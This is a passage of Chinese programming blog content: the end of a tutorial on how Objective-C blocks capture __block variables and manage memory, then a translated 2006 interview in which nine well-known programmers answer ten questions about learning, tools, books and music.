使用__block类型指示符的本质就是引入了__Block_byref_{$var_name}_{$index}结构体，而被__block关键字修饰的变量就被放到这个结构体中。另外，block结构体通过引入__Block_byref_{$var_name}_{$index}指针类型的成员，得以间接访问到外部变量。

通过这样的设计，我们就可以修改外部作用域的变量了，再一次应了那句话：

> There is no problem in computer science that can’t be solved by adding another level of indirection.

指针是我们最经常使用的间接手段，而这里的本质也是通过指针来间接访问，为什么要特地引入__Block_byref_{$var_name}_{$index}结构体，而不是直接使用int *来访问外部变量i呢？

另外，__Block_byref_{$var_name}_{$index}结构体中的__forwarding指针成员有何作用？

请继续往下看 ：）

#### 5. 背后的内存管理动作

在Objective-C中，block特性的引入是*为了让程序员可以更简洁优雅地编写并发代码*（配合看起来像敏感词的GCD）。比较常见的就是将block作为函数参数传递，以供后续回调执行。

先看一段完整的、可执行的代码：

```
#import <Foundation/Foundation.h>
#include <pthread.h>

typedef void (^DemoBlock)(void);

void test();
void *testBlock(void *blk);

int main(int argc, const char * argv[])
{
    printf("Before test()\n");
    test();
    printf("After test()\n");

    sleep(5);
    return 0;
}

void test()
{
    __block int i = 1024;
    void (^blk)(void) = ^{ i = 2048; printf("%d\n", i); };

    pthread_t thread;
    int ret = pthread_create(&thread, NULL, testBlock, (void *)blk);
    printf("thread returns : %d\n", ret);

    sleep(3); // 这里睡眠1s的话，程序会崩溃
}

void *testBlock(void *blk)
{
    sleep(2);

    printf("testBlock : Begin to exec blk.\n");
    DemoBlock demoBlk = (DemoBlock)blk;
    demoBlk();

    return NULL;
}
```

在这个示例中，位于test()函数的block类型的变量blk就作为函数参数传递给testBlock。

正常情况下，这段代码可以成功运行，输出：

```
Before test()
thread returns : 0
testBlock : Begin to exec blk.
2048
After test()
```

如果按照注释，将test()函数最后一行改为休眠1s的话，正常情况下程序会在输出如下结果后崩溃：

```
Before test()
thread returns : 0
After test()
testBlock : Begin to exec blk.
```

从输出可以看出，当要执行blk的时候，test()已经执行完毕回到main函数中，对应的函数栈也已经展开，此时栈上的变量已经不存在了，继续访问导致崩溃——这也是不用int *直接访问外部变量i的原因。

##### 5.1 拷贝block结构体

上文提到block结构体__block_impl的第一个成员是isa指针，使其成为NSObject的子类，所以我们可以通过相应的内存管理机制将其拷贝到堆上：

```
void test()
{
    __block int i = 1024;
    void (^blk)(void) = ^{ i = 2048; printf("%d\n", i); };

    pthread_t thread;
    int ret = pthread_create(&thread, NULL, testBlock, (void *)[blk copy]);
    printf("thread returns : %d\n", ret);

    sleep(1);
}

void *testBlock(void *blk)
{
    sleep(2);

    printf("testBlock : Begin to exec blk.\n");
    DemoBlock demoBlk = (DemoBlock)blk;
    demoBlk();
    [demoBlk release];

    returnNULL;
}
```

再次执行，得到输出：

```
Before test()
thread returns : 0
After test()
testBlock : Begin to exec blk.
2048
```

可以看出，在test()函数栈展开后，demoBlk仍然可以成功执行，这是由于blk对应的block结构体__main_block_impl_0已经在堆上了。不过这还不够——

##### 5.2 拷贝捕获的变量（__block变量）

在拷贝block结构体的同时，还会将捕获的__block变量，即结构体__Block_byref_i_0，复制到堆上。这个任务落在前面没有讨论的__main_block_desc_0结构体身上：

```
static void __main_block_copy_0(struct __main_block_impl_0*dst, struct __main_block_impl_0*src) {_Block_object_assign((void*)&dst->i, (void*)src->i, 8/*BLOCK_FIELD_IS_BYREF*/);}

static void __main_block_dispose_0(struct __main_block_impl_0*src) {_Block_object_dispose((void*)src->i, 8/*BLOCK_FIELD_IS_BYREF*/);}

static struct __main_block_desc_0 {
    unsigned long reserved;
    unsigned long Block_size;
    void (*copy)(struct __main_block_impl_0*, struct __main_block_impl_0*);
    void (*dispose)(struct __main_block_impl_0*);
} __main_block_desc_0_DATA = { 0, sizeof(struct __main_block_impl_0), __main_block_copy_0, __main_block_dispose_0};
```

栈上的__main_block_impl_0结构体为src，堆上的__main_block_impl_0结构体为dst，当发生复制动作时，__main_block_copy_0函数会得到调用，将src的成员变量i，即__Block_byref_i_0结构体，也复制到堆上。

##### 5.3 __forwarding指针的作用

当复制动作完成后，栈上和堆上都存在着__main_block_impl_0结构体。如果栈上、堆上的block结构体都对捕获的外部变量进行操作，会如何？

下面是一段示例代码：

```
void test()
{
    __block int i = 1024;
    void (^blk)(void) = ^{ i++; printf("%d\n", i); };

    pthread_t thread;
    int ret = pthread_create(&thread, NULL, testBlock, (void *)[blk copy]);
    printf("thread returns : %d\n", ret);

    sleep(1);
    blk();
}

void *testBlock(void *blk)
{
    sleep(2);

    printf("testBlock : Begin to exec blk.\n");
    DemoBlock demoBlk = (DemoBlock)blk;
    demoBlk();
    [demoBlk release];

    returnNULL;
}
```

1. 在test()函数中调用pthread_create创建线程时，blk被复制了一份到堆上作为testBlock函数的参数。
2. test()函数中的blk结构体位于栈中，在休眠1s后被执行，对i进行自增动作。
3. testBlock函数在休眠2s后，执行位于堆上的block结构体，这里为demoBlk。

上述代码执行后输出：

```
Before test()
thread returns : 0
1025
After test()
testBlock : Begin to exec blk.
1026
```

可见无论是栈上的还是堆上的block结构体，修改的都是同一个__block变量。

这就是前面提到的__forwarding指针成员的作用了：

起初，栈上的__block变量的成员指针__forwarding指向__block变量本身，即栈上的__Block_byref_i_0结构体。

当__block变量被复制到堆上后，栈上的__block变量的__forwarding成员会指向堆上的那一份拷贝，从而保持一致。

#### 参考资料：

- http://msdn.microsoft.com/en-us/library/dd293603.aspx
- http://www.cprogramming.com/c++11/c++11-lambda-closures.html
- http://developer.apple.com/library/ios/#documentation/cocoa/Conceptual/Blocks/Articles/00_Introduction.html
- [http://en.wikipedia.org/wiki/Closure_(computer_science)](https://en.wikipedia.org/wiki/Closure_(computer_science))

# 对九个超级程序员的采访

#####  [2012年09月14日 ](https://coolshell.cn/articles/8275.html) [陈皓](https://coolshell.cn/articles/author/haoel) 评论 [70 条评论](https://coolshell.cn/articles/8275.html#comments) 106,634 人阅读

原文：《[Q&A With Nine Great Programmers](http://www.dodgycoder.net/2012/09/q-with-nine-great-programmers.html)》时间有限，我只能粗译，难免错误。

**这篇访谈源自2006年，最先发布在波兰程序员 Jaroslaw “sztywny” Rzeszótko (AKA “Stiff”) 的博客上。但是这篇博文现在找不到了。非常感谢他能授权我重新发布这个博文。**

*在一个炎热无聊的下午，我突发奇想。我想通过电子邮件的方式对那些我非常感兴趣和非常敬重的程序员问10个问题。准备这10个问题我只花了5分钟，这些都是我个人想问他们的问题，所以，我基本上没想太多要问他们什么。最后两个问题和编程没有什么关系，我就是想问题这些人的一些兴趣爱好。另外，不是每一个人都想回答我的，这是我第一次做“访谈”，所以，我犯了一些错误，一些问题没有得到回答。不管怎么样，我得到了很多很有意思的内容，所以，这对我绝对是一次很有意义的经历。*

*并不是每一个人都回了我的邮件，也并不是每一个人都同意回答我的这些问题，也许在我发布这篇文章后我会得到那些回答，但是我已经迫不及待想把这些东西发布了，所以，我可能会更新这篇文章（更新：2006年3月8日，我收到了\*Bjarne Stroustrup的回信\*）*

*— Jaroslaw*

目录


[介绍](https://coolshell.cn/articles/8275.html#介绍)[Q 1: 你是怎么学编程的？是从学校里学的吗？或者你没有上过学:) ？](https://coolshell.cn/articles/8275.html#Q_1_你是怎么学编程的？是从学校里学的吗？或者你没有上过学_？)[Q 2: 你们觉得对程序员最重要的事是什么？](https://coolshell.cn/articles/8275.html#Q_2_你们觉得对程序员最重要的事是什么？)[Q 3: 你是否认为数学和/或物理是一种很重要的编程技能？为什么？](https://coolshell.cn/articles/8275.html#Q_3_你是否认为数学和或物理是一种很重要的编程技能？为什么？)[Q 4: 关于编程，你们认为接下来的大事是什么？X-Oriented编程，Y语言，量子电脑 ？](https://coolshell.cn/articles/8275.html#Q_4_关于编程，你们认为接下来的大事是什么？X-Oriented编程，Y语言，量子电脑_？)[Q 5: 如果你有3个月学一个相对较新的技术，你会学什么？](https://coolshell.cn/articles/8275.html#Q_5_如果你有3个月学一个相对较新的技术，你会学什么？)[Q 6: 你们觉得如何让一些程序员可能有超过其它程序员10倍或100倍的生产力？](https://coolshell.cn/articles/8275.html#Q_6_你们觉得如何让一些程序员可能有超过其它程序员10倍或100倍的生产力？)[Q 7: 什么工具是你的最爱（操作系统，编程/脚本语言，文本编辑器，版本管理，shell，数据库，或其它没它你活不了的工具），为什么不是别的？](https://coolshell.cn/articles/8275.html#Q_7_什么工具是你的最爱（操作系统，编程脚本语言，文本编辑器，版本管理，shell，数据库，或其它没它你活不了的工具），为什么不是别的？)[Q 8: 你最喜欢的编程书是什么？](https://coolshell.cn/articles/8275.html#Q_8_你最喜欢的编程书是什么？)[Q 9: 你最喜欢的和编程无关的一本书是什么？](https://coolshell.cn/articles/8275.html#Q_9_你最喜欢的和编程无关的一本书是什么？)[Q 10: 你最喜欢的乐队/演奏家/作曲家？](https://coolshell.cn/articles/8275.html#Q_10_你最喜欢的乐队演奏家作曲家？)[ 补充说明](https://coolshell.cn/articles/8275.html#_补充说明)

#### 介绍

- [**Linus Torvalds**](https://en.wikipedia.org/wiki/Linus_Torvalds) – [Linux kernel](http://linux.org/) 作者。

- [**Dave Thomas**](https://en.wikipedia.org/wiki/Dave_Thomas_(programmer)) – “Pragmatic Programmer”(注：[douban](http://book.douban.com/subject/1417047/)) 和 “Programming Ruby”(注：[douban](http://book.douban.com/subject/1422056/)) 以及其它一些优秀书籍的作者。 你可以在 [这里](http://pragdave.pragprog.com/) 读读他对编程的一些想法。

- [**David Heinemeier Hansson**](https://en.wikipedia.org/wiki/David_Heinemeier_Hansson) –  [Rails Framework](http://rubyonrails.org/) 作者- 一个目前最新最热的Web开发框架。他的blog在 [这里](http://david.heinemeierhansson.com/). （陈皓注：他也是[37signals](https://en.wikipedia.org/wiki/37signals)的领导人之一）

- [**Steve Yegge**](https://en.wikipedia.org/wiki/Steve_Yegge) – 他可能并不那么知名，但是他给了很多有意思的回答。他有一个很火的关于编程的 [blog](https://steve-yegge.blogspot.com/)，他也是游戏 “Wyvern” 的作者。（陈皓注：他最火的是去年在google+上[对google和amazon的吐槽](https://coolshell.cn/articles/5701.html)，06年他应该在google了）

- [**Peter Norvig**](https://en.wikipedia.org/wiki/Peter_Norvig) – Research Director at Google, 知名的 Lisper，AI书的著名作家，[个人主页](http://norvig.com/)。

- [**Guido Van Rossum**](https://en.wikipedia.org/wiki/Guido_Van_Rossum) – [Python](https://python.org/) 发明者。

- [**Bjarne Stroustrup**](https://en.wikipedia.org/wiki/Bjarne_Stroustrup) – C++发明者， [个人主页](http://www.stroustrup.com/)。

- **[James Gosling](https://en.wikipedia.org/wiki/James_Gosling)** –  [Java](http://java.sun.com/) 发明者。

- **[Tim Bray](https://en.wikipedia.org/wiki/Tim_bray)** –  XML 和 Atom 规格说明书作者之一 [个人博客](http://www.tbray.org/ongoing/) 。

#### Q 1: 你是怎么学编程的？是从学校里学的吗？或者你没有上过学:) ？

***Steve Yegge\***

在我17岁的时候，我在HP的计算器中用他们的RPN 栈语言自学编程的。在这之前，我尝试过学习编程一两次，但都没有学成。HP 28c 和 48g 的科学计算器是一个很牛的东西，而且还有不错的文档。我搞了一本3D图形的书，并很费力地把其中的Pascal语言转成RPN栈语言，并用48g写了一个3D的线框图渲染图。运行的还不错，在我买了PC和Turbo Pascal之后，我开始认真地学习编程。在我进入大学计算机科学专业之前，我已经是一个不错的程序员了。

我在华盛顿大学拿到了计算机科学学位，这绝对是有价值的，所以，我建议所有的程序员都应该得到计算机科学专业的学位。

***Linus Torvalds\***

我没有在学校里学过编程，我在主要是读我自己想读的书，或是就直接去编程 (一开始在 [Commodore VIC-20](https://en.wikipedia.org/wiki/Commodore_VIC-20) 学编程， 然后是 [Sinclair QL](https://en.wikipedia.org/wiki/Sinclair_QL)上编程)。

当然，我觉得上大学非常有用。我没有去一个工科大学，我上了赫尔辛基大学，这是一个比较偏理论的大学，所以，那里的教育并没有那么多的编程的东西（编程只是很少一部分），这里大多数的课程都倾向于教一些基础概念的东西，如：复杂性分析。看上去很无聊，甚至有点浪费时间，但是我还是觉得这些课有用，我对大多数课都还比较enjoy。所以，我觉得我可能在这些方面是一个比较好的程序员。

***David Heinemeier Hansson\***

我学编程是从用HTML做我的第一个网页开始的。那时，我想当我的网页能动态地显示一些内容，所以，我选择了ASP和PHP。在做完这个网页后，我知道了怎么去编程，于是我开始我的计算机科学和商业管理学位的学习。

***Peter Norvig\***

我是从高中和大学课程中学编程的，但是我还是觉得我自己学得更多。

***Dave Thomas\***

我是在高中学编程的。我完全地迷住了，我对编程爱得无法自拔，然后，我开始挑选那些提供软件开发课程的大学。最终，我去了伦敦大学的帝国学院。第二年我就开始学习软件开发的课程了，那绝对是非凡的，学生和教员在一起工作把教材做得更好，每一个人都可以从中学到很多。这些课程给了我难以置信和非常雄厚的软件开发背景。我在那里读到了博士，最后去创业了。

关于“我是怎么学编程的”这个问题，我的回答是“我现在还在学编程”。我认为好的程序员一生都在学编程。这并不是去学一门语言或是一个代码库，好的程序员会对他们的编程技艺一年又一年地精益求精。

***Guido Van Rossum\***

我去的那个大学有一个大型主机和很多不同的计算机课程。这对我很重要。

***James Gosling\***

起初，我是自学的。在我去上大学之前，我就找到了一份程序员的工作。但是我很高兴我去了大学，在那里有很多乐趣，最终我学到了博士。

***Bjarne Stroustrup\***

我先上的是Aarhus大学， 然后是 剑桥大学(Cambridge)，这两个大学教了我很多很有用的东西，这些东西为了以后的工作打下了基础。另外，我对编程和钱的关系学得非常好——知道了真实世界的问题，正确性，维护性，准时交付，等等，这些比教育可能更重要。

***Tim Bray\***

我本来想去做一个数学老师的。但是，那个学数学的大学要我去学几个计算机的课。

#### Q 2: 你们觉得对程序员最重要的事是什么？

***Steve Yegge\***

沟通能力（写和说）。除非你可以让你的想法更有效率地传递出去，否则你不可能做得比编程更多的事。程序员应该疯狂地阅读，锻炼写作能力，参加一些写作培训课程，甚至锻炼在公开场合演讲的能力。

***Linus Torvalds\***

It’s a thing I call “taste”. 有一件事，我把它叫做“品味”。

我倾向于不从熟练程度来评判那些和我工作过的人。这些人能非常艰苦地写出很多代码，但是我想从他们对别人的代码的反应做出评判，这样我们就可以明白他们自己写的代码怎么样，知道他们使用的方法怎么样。他们对别人的评判还告诉我，他们是不是有好的“品味”。是这样的，如果一个人没有“好的品味”，那么他一般不会很好的评判他人的代码，他自己写的代码通常也不会很好。

哦，这并不只是唯一的事。还有一件事，尤其在开源项目里，那是他是否有能力能和别人进行简单的沟通，告诉别人他要干什么，怎么干。这个能力可以告诉别人为什么你干的事是非常重要的，并不是所有的人都有这个能力。

也就是说，有一些人可以写出很不错的代码，但他们并不一定能解释这些代码，他们也并不一定有好的品味，但是代码可以运行得不错。有时，你需要另一个人（有那种不错的品味的人）把他的代码转成更好的形式。也就是说，任何一个程序员都需要那种可以用清晰的代码来解决复杂问题的基础能力。

***David Heinemeier Hansson\***

很强的对有价值的事的感觉。你可以问问自己这个问题你有没有这种能力：我现在做的这个事值不值得做？很多程序员浪费了如大海一样的时间去做一些无意义的事。

***Peter Norvig\***

我不觉得只有一个，如果要我说一个的话，我说是“专注”。

***Dave Thomas\***

热情。

***Guido Van Rossum\***

你的问题很难回答啊:-) 我猜，如果程序员会在早晨煎个鸡蛋做早餐，那真是无价的能力。

***James Gosling\***

自我激发。你需要全身心地投入到你要做的事中。

***Bjarne Stroustrup\***

把事想清楚的能力：程序必需要能清楚地理解问题并能清楚地表述解决方案。

***Tim Bray\***

能为自己的直觉提供证据的能力。

#### Q 3: 你是否认为数学和/或物理是一种很重要的编程技能？为什么？

***Steve Yegge\***

数学有很多的分支和程序员相关，他们是“离散数学”和“具体数学”。这些分支包括的学科有，概率论，组合数学，图论，归纳证明，和其它有用的东西。我会鼓励所有的程序员都去学习离散数学，无论能学多少，因为这总比什么都不懂强。

对于传统的数学，我也不经常用，但是我需要的时候这些数学知识会很管用。例如，在我之前的工作中我就用到了微积分。我需要估计每个小时中某服务的高峰时间的流量负载，所以，他的负载是跟着太阳走的就像一个正弦曲线一样。最简单的方式就是把每个小时的负载曲线给整合起来。如果我不知道微积分，我就不知道怎么更为准确地估计。

当年我在开发我的Wyvern游戏的时候，我的平面几何的知识对我非常有帮助。而且经常使用代数和线性代数的知识。但我很少在工作中使用三角学或微分方程，微积分同样也很少。

我想说，简单的数学基础让我的技能比一般程序员好过5%到10%。如果我了解更多的数学，我确信我会比今天做得更好，所以，我每周都会花几个小时学习数学。

我喜欢物理，我还在学习物理，我会花我一生去理解量子力学。但是我个却没有发现物理对我的程序员工作有多有用。当然，如果我从事一些和物理相关的工作，可能会有用，例如：3D游戏编程，或是某种物理特性仿真。

***Linus Torvalds\***

我个人认为有很强的数学背景是一件好事。但我不确信物理是不是这样的，但是我深信懂数学的人会让你成为一个更好的程序员。这些智力模型都是相通的。

***David Heinemeier Hansson\***

根本没用。至少对业务编程和Web应用来说没用。但是数学可能对一个人的写作有很重要的帮助。

***Peter Norvig\***

是的。很多相法都是从数学来的：归纳，递归，逻辑，等等。

***Dave Thomas\***

也许吧。但老实说，我没见到过懂这些学科和好的程序员有很大的相关性。

然而，我见过有音乐背景和好的编程技能有很强的相关性。我不知道这为什么，但是我怀疑大脑中的某个区域可以让人即可以写出好的音乐，也可以写出好的代码。（陈皓注：*[@Sir阿怪](http://www.weibo.com/n/Sir阿怪)* 貌似就是这个例子）

***Guido Van Rossum\***

数学，当然（对于一些学科是很重要的，我不关心微分方程，但是代数和逻辑学是很重要的），物理，我不觉得对编程技能有关，当然物理在其它很多地方很有意思。

***James Gosling\***

当然！数学教会了我逻辑和推导……让我有了一双懂分析的眼睛。当我们分析算法的时候，数学是无法被取代的。

***Bjarne Stroustrup\***

这要看程序员自己和项目性质了。以前的数学很有用，物理一般，但是学好物理是是学习应用数学最好的一条路。

***Tim Bray\***

对我来说，在我的编程生涯中我从来都没有用过大学里教的数学。

#### Q 4: 关于编程，你们认为接下来的大事是什么？X-Oriented编程，Y语言，量子电脑 ？

***Steve Yegge\***

我认为Web编程会逐渐变成最最重要的客户端编程。而对于原来传统的客端端编程都会被废弃，如： GTK, Java Swing/SWT, Qt, 当然，所有的和平台有关的东西，例如 Cocoa 和 Win32/MFC/等。

当然，这不会一晚上就发生了。这会在第一个十年内缓慢地发生，而在第二个十年内，Web Apps最终会胜利。工具，语言，协议，和浏览器技术都会进步得非常快，并会完全超出你今天能干的事。每一年都会向前进一步，而从今天开始，我会最终决定把我所有的应用开发全部切换到基于浏览器的应用。（陈皓注：我也是这么认为的，参看《[来信，创业，移动互联网](https://coolshell.cn/articles/5815.html)》）

微软和苹果最终不愿意这个事发生，所以，触发这个事的第一步会是一个开源的浏览器（如：Firefox）开始到了支配市场的地位，然后会出现某种Firefox的杀手级应用（这种杀手级应用可能会像iTunes一样，所有的人都会用它，只需要下载Firefox）

***Linus Torvalds\***

我并不认为我们会看到一个“大的跳跃”。我们只会看到很多的工作帮助我们把那些沉闷辛苦的工作变得更简单——会有一个更高级别的语言，也许把简单的数据库集成到语言中来会是其中最主要一个。

例如，我个人相信“Visual Basic”在编程方面比“面向对象”做得更多。当然，人们都在取笑VB是一个很烂的编程语言，并且人们在谈论OO语言都十多年了。但我还觉得不是这样的，Visual Basic 不是一个好的语言，但是我觉得VB那简单的数据库接口比OO更重要。

所以，我认为会语言有很多的改进，并且，硬件的改进会让编程更容易，但我并不期望会有巨大的生产力或是革命性的改进。

至少，你不会开始搞真正的AI的东西，我也不认为真的AI会变成某种你不需要编程的东西。

***David Heinemeier Hansson\***

我从不试图预测未来。我也不相信命运一说。最好预测未来的方式就是去实现未来。

***Peter Norvig\***

大规模的分布式处理

***Dave Thomas\***

下一个最牛的事会被再下一个最牛的事所掩盖，然后再被再再下一个所掩盖，再再再下一个所掩盖……。这是一件没完没了的事，所以，我并不会试图去找最牛的事，因为这会让人们忘了那些最真实的问题：把基本的东西做对。我们要让用户更满意，专注于交付有价值的东西，自豪于我们做的事。一个程序员可以使用很多工具把这些事做得更好，而不是去追逐时尚和流行。

***Guido Van Rossum\***

对不起，我没有那么多水晶球。我CGI被发明了5年后预测过它 :-)

***James Gosling\***

有两个事是我现在最关心的，那就是要对付并行和复杂。

***Bjarne Stroustrup\***

我不知道，我也不愿猜。

***Tim Bray\***

不知道。

#### Q 5: 如果你有3个月学一个相对较新的技术，你会学什么？

***Steve Yegge\***

我的确有3个月的业余时间，我准备学一下 Dojo ([http://dojotoolkit.org](http://dojotoolkit.org/)) 和高级 AJAX 及 DHTML。我会通过开发一个相当牛的Web应用来学习他们。Dojo 真的酷，并且我确信它会越来越好。

***Linus Torvalds\***

嗯，我真的很爱做 FPGA（可编程芯片），但我部是太忙了而不是坐来来开始学习。我喜爱和硬件打交道：很明显这个原因是因为我最终在做操作系统，因为操作系统（除了编译器）基本上都是在和硬件打交道，但我没有真正地自己去设计和做一个硬件。

***David Heinemeier Hansson\***

Mac 的 Cocoa 编程

***Peter Norvig\***

我想把 Javascript 学得更好，~~然也~~当然也想学 flash.

***Dave Thomas\***

如果“新”是对于我来说，那么我会去学钢琴课。

如果“新”是说技术，我猜 我会选择学习某种和为残疾人服务的有关的技术。

***Guido Van Rossum\***

单板滑雪。

***James Gosling\***

搞点有乐趣的东西，我会学习最新的3D渲染技术。我可能会写一个光子映射渲染器。

***Bjarne Stroustrup\***

3个月只有很少的东西你可以学，我觉得你只能参加某个成熟领域的培训。

***Tim Bray\***

安全，加密，数字签名，身份标识，等等。对我来说，从没学过这些东西对我来说是个很大的问题。

#### Q 6: 你们觉得如何让一些程序员可能有超过其它程序员10倍或100倍的生产力？

***Steve Yegge\***

我想你应该考虑一下为什么不是让所有的程序员都一样牛。托马斯爱迪生有一句关于天才的名言也许会给你一些启示。

***Linus Torvalds\***

我真的不知道，我想，一些人之所以更牛是因为他们可以专注于那些重要的事，而更多的只不过是在应付。那些我所知道的真的很牛的程序员从很年轻的时候就在做事了。

***David Heinemeier Hansson\***

把难题变简单的能力。

***Peter Norvig\***

把整体问题一次性放入大脑的能力。

***Dave Thomas\***

他们关心他们做的事。

***Guido Van Rossum\***

大脑结构基因不同。

***James Gosling\***

他们知道他们要做什么，他们不并不急于仓促行事。他们有他们要做的事的整个蓝图。

***Bjarne Stroustrup\***

首先，缺少足够的职业培训，或基础不够。其次，这些人要即聪明（那种可以把事情想清楚，直达核心的能力），又有经验，并有使用工具的知识。编程需要把理论和实践结合起来 – 并不是使用没有实际业务的知识。

***Tim Bray\***

令人惊讶的思维改变。

#### Q 7: 什么工具是你的最爱（操作系统，编程/脚本语言，文本编辑器，版本管理，shell，数据库，或其它没它你活不了的工具），为什么不是别的？

***Steve Yegge\***

操作系统： Unix! 我用Linux，cygwin，和 darwin。你无法打败那些高效的工具。每一个程序员都应该学习使用/bin和/usr/bin下的所有命令。

脚本语言：Ruby。我几乎对所有的重要的脚本语言都很熟悉： Perl, Python, Tcl, Lua, Awk, Bash, 和一些我忘了的。但是我太懒了，而Ruby是目前所有脚本语言中最简单的，它应该是天堂制造的。

编程语言：没有一个我喜欢的，我觉得所有的编程语言都很扯。我倾向于Java，因为它很强，可跨平台，有多不错的工具和类库。但是Java未来会进化或是灭亡，Java还没有好到可以永远保持其领先地位。

文本编辑器：Emacs，因为这是迄今最好的编辑器。

版本管理：SVN，Perforce更好一些，但是也很贵。

Shell脚本： Bash, 因为我太懒了去学一个更好的。

数据库： 当然是MySQL，没有之一。

其它：我发现GIMP是无价的，但也是令人恼~~炎~~火的。我用这个东西好几年了，但什么也没干，但是我没它活不了。很讽刺吧。Firefox 越来越是我最重要的工具。如果让我去用IE和Safari，我会有严重的窒息感。

注：所有的这些工具 (Unix, Emacs, Firefox, GIMP, MySQL, Bash, SVN, Perforce) 都有一个共同点：他们是可扩展的。例如：他们都有可编程的API。伟大的程序员知道怎么编写他们的工具，而不只是去使用。

***Linus Torvalds\***

实际上，我最终也没有用过几个工具，而我却花了一些时间让这些工具为我工作。最大的事是我自己写了个操作系统，我也自己写了个版本管理系统（git），我用的文本编辑器是 micro-emacs – 最终我也定制和扩展了它。

除了上面三个，其它的东西，我深度关心我的邮件阅读软件，我使用“pine”，并不是因为它是史上最好的邮件阅读软件，因为我习惯了，用它我会有最低限度的大惊小怪。

***David Heinemeier Hansson\***

OS X, TextMate, Ruby, Subversion, MySQL. 这些组合让我很快乐。我希望那些有好的品味的专注于重要的事的工具。

***Peter Norvig\***

我不喜欢那三大操作系统 – Windows, Mac, Linux。我喜欢 Python 和 Lisp. Emacs.

***Dave Thomas\***

在使用Linux10年后我转到Mac平台有两年多了。Mac并不见得有多好，但是它不需要很牛的技术，也不需要经常维护，这让我可以让我更专心得使用它。

我并不是一个单一工具的信仰者，我喜欢换来换去的，这样可以让我有更多的经历。现在，我使用 OSX, Emacs, TextMate, Rails, Ruby, SVN, CVS, Rake, make, xsltproc, TeX, MySQL, Postgres, 还有一堆高效的小工具。没人知道我明年会用什么。

***Guido Van Rossum\***

Unix/Linux, Python, vi+emacs, Firefox.

***James Gosling\***

这些天，我在用 NetBeans. 用它可以干我想干的所有的事，清洁，简单和高效。这是最好的我永远要生活在其中的环境了。

***Bjarne Stroustrup\***

Unix, sam (一个非常简单的文本编辑器), 当然，一个好的C++编译器。

***Tim Bray\***

我喜欢 Unix-like 的操作系统，像 Python 和 Ruby 的动态语言，像Java的静态语言（具体说来是Java API） Emacs, 还有, bash, whatever, NetBeans.

#### Q 8: 你最喜欢的编程书是什么？

***Steve Yegge\***

大哥，这个问题太难了。也许是”Gödel, Escher, Bach: an Eternal Golden Braid” (作者Hofstadter)？虽然这不是严格意义上的编程的书，如果你要明确意义上的编程书，那么可能是 SICP (mitpress.mit.edu).

***Linus Torvalds\***

嗨。这两天我在读一些小说，或是非计算机读物（老的但是有用的 “The Selfish Gene” 作者 Richard Dawkins)。

如果要问我编程的书，我脑子里只出现了唯 一一本真正的经典的编程的书 Kernighan & Ritchie 的 “The C Programming Language”，因为这本书太牛了，可读性强并且很短。考~~虚~~虑一下你想学到这世上一门最重要编程语言，并且它很要很薄，而且还有可读性，这真是一个奇迹。

也就是说，其它我很喜欢的书并不是编程的，而是关于计算机结构和硬件的。那显然是 Patterson & Hennessy 的计算机结构的书，但是我个人也许更喜欢 Crawford & Gelsinger 的 “Programming the 80386?，这是我在开始写Linux时用的书。

相似的原因，我还喜欢 Andrew Tanenbaum 的 “Operating Systems: Design and Implementation”.

***David Heinemeier Hansson\***

我喜欢 Extreme Programming Explained 其摒弃了一般的编程实践，我还喜欢 Patterns of Enterprise Application Architecture 其出众地说明了抽象和具现的平衡。

***Peter Norvig\***

Structure and Interpretation of Computer Programs

***Dave Thomas\***

这关系到你所谓的“最喜欢”，也许我最喜欢的是IBM的 “IBM/360 Principles of Operation.”

***Guido Van Rossum\***

Neil Stephenson的 Quicksilver.

***James Gosling\***

Programming Pearls 作者Jon Bentley.

***Bjarne Stroustrup***

K&R.

***Tim Bray\***

Bentley的 Programming Pearls

#### Q 9: 你最喜欢的和编程无关的一本书是什么？

***Steve Yegge\***

只能是一本吗？这不可能。有太多太多我喜欢的书了。

我这个月读过最喜欢的书是 “Stardust” (Neil Gaiman) 和 “The Mind’s I” (Hofstadter/Dennet).

我最喜欢的作者是 Kurt Vonnegut, Jr. 和 Jack Vance.

***Linus Torvalds\***

我在前面说过 Dawkins的 Selfish Gene。在小说方面，有很多很多我enjoy的，但是几乎没有我特别喜欢的一本。我一般不会重读一本书，我的选择总是会变。我可能更喜欢科幻小说，如：”Stranger in a Strange Land” 作者 Heinlein，这是我青少年时期最喜欢的书，但现在并不是我喜欢的了。

***David Heinemeier Hansson\***

1984, George Orwell.

***Guido Van Rossum\***

Neil Stephenson 的 Quicksilver.

***James Gosling\***

Guns, Germs & Steel 作者 Jared Diamond

***Bjarne Stroustrup\***

我没有固定喜欢的书。目前是 O’Brian 的 Aubrey/Maturin 系列。

***Tim Bray\***

One Day in the Life of Ivan Denisovich

#### Q 10: 你最喜欢的乐队/演奏家/作曲家？

***Steve Yegge\***

喜欢的风格：古典音乐，动漫原声音乐，电脑游戏音乐

喜欢的作曲家：Rachmaninoff, Chopin, Bach

喜欢的演奏者：David Russell (古典吉它), Sviatoslav Richter (钢琴)

喜欢的动漫音乐： Last Exile, Haibane Renmei

***Linus Torvalds\***

实际上我并不太喜欢音乐，但是当我听音乐的时候，我一般听经典摇滚乐，如： Pink Floyd ，Beatles ，Queen 和 The Who 乐队。

***David Heinemeier Hansson\***

我喜欢很多风格。 Beth Orton, Aimee Mann, Jewel, Lauryn Hill. Actually, 所有的这些都可以归到 Girls with Guitars ;).

***Guido Van Rossum\***

Philip Glass.

***James Gosling\***

我喜欢听民歌: Christine Lavin, Woody Guthrie, Pete Seeger…

***Bjarne Stroustrup\***

乐队: The Dixie Chicks. 作曲家: Beethoven.

***Tim Bray\***

看我的博客吧。

. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .

. . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . . .

####  **补充说明**

我之所以发现这篇文章，是因为我读到了 Jeff Atwood 的这篇名为 “[Linus Torvalds, Visual Basic Fan](http://www.codinghorror.com/blog/2006/07/linus-torvalds-visual-basic-fan.html)” 的文章，这篇文章指向了 “[STIFF ASKS, GREAT PROGRAMMERS ANSWER](http://sztywny.titaniumhosting.com/2006/07/23/stiff-asks-great-programmers-answers/)” 这篇文章，但是链接已坏了，然后，我搜了一下也没有搜到这篇文章。然后我去了 archive.org 搜了一下，并找到了这篇由 Jaroslaw Rzeszótko 写的博客。

因为这篇博文现在找不到了，所以，我想我应该重新把它贴出来，这样其它人可以读一下这篇有意思的文章。所以，我向原作者取得了授权，再次感谢 Jaroslaw!

（全文完）

# “单元测试要做多细？”

